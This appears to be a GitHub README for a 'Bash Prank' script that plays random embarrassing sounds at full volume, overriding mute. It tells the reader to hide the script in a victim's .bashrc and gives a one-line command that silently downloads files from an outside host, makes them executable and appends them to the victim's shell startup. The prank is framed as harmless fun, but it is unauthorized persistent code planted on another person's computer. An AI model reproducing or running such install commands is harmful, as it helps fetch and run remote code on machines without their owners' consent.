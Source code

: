 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.




Run via ./al.sh & disown $!
Hide in their bashrc
 ./{PATH_TO_FILE}/al.sh & disown $!

Do everything via: mkdir ~/.config/al >/dev/null 2>&1; cd ~/.config/al; wget -r -nc -nd http://prank.hostei.com/ >/dev/null 2>&1 && chmod +x al.sh && echo ". ~/config/al/al.sh & disown $!" >> ~/.bashrc

